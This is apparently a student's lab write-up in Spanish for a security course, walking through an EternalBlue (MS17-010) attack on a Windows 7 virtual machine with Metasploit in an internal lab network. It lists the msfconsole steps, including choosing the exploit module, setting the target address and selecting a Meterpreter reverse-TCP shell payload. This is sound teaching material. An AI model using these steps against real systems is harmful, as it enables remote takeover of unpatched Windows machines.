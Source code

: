 # SAD_2021--Vulnerabilidades---Metasploit

## Práctica del módulo de ***Seguridad y Alta Disponibilidad***

- Alumno: Fernando Páez Martín
- Curso: 2ºB - A.S.I.R.
- IES Punta del Verde

![alt Metalogo](Metasploit.png)

Haremos una busqueda de información sobre esta herramienta que permite ejecutar y desarrollar exploits contra sistemas objetivos. La primera opción antes de usar la propia herramienta va a consistir en recopilar información sobre el sistema objetivo. A partir de los datos obtenidos, se tomarán las decisiones acordes y los pasos a seguir en etapas posteriores.

- Descarga de las herramientas de Metasploitable y Máquina Virtual de Kali linux.
- Descarga de imagen iso de windows 7 para realizar el estudio de la vulnerabilidad y creacion de la máquina virtual.

## Recopilación de información

La tarea a desarrollar irá enfocada a la vulnerabilidad catalogada en la base de datos de vulnerabilidades CVE como:

[MS17-0144 - Eternalblue](https://www.cvedetails.com/cve/CVE-2017-0144/)

EternalBlue explota una vulnerabilidad en protocolo Server Message Block (SMB). Esta vulnerabilidad se dio porque el servidor SMB v1 (SMBv1) de Microsoft Windows manejaba mal paquetes especialmente diseñados por atacantes remotos, permitiendo ejecutar código sobre el equipo a que ataca.

## Configuración de las máquinas virtuales

Se configuran en un entorno llamado "Red Interna" y dentro del mismo rangode red:

- Kali con 10.0.2.10/8
- Windows con 10.0.2.11/8

## Ejecución de escaner de red Nmap

Con esta herramienta descubriremos puertos y servicios abiertos en la máquina objetivo.

## Metasploit Framework (MSF) 

En la primera fase ejecutaremos este framework para buscar exploits usar y deescargar payloads y ejecutarlos.

*msfconsole



Usaremos su buscador para encontrar el exploit:

*search eternalblue


De los resultados elegiremos la primera opción:

N   Name                                      Disclosure      Date     Rank   Check    Description
-  --                                        -- -- -- --      -- --    -- --  -- -- -- -- -- 
0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

*use 0

Nos duvuelve:

*No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp


Vemos que parámetros son requeridos con el comando:
*options


nos pide datos del equipo remoto o *RHOST*. Le indicamos la ip del equipo remoto 10.0.2.11


Podemos ver una serie de payloads a ejecutar:


Vamos a realizar la prueba con el siguiente *windows/x64/meterpreter/reverse_tcp*:




Le indicamos que se ejecute con *run




Podemos ver las distintas opciones que nos ofrece este exploit con *options
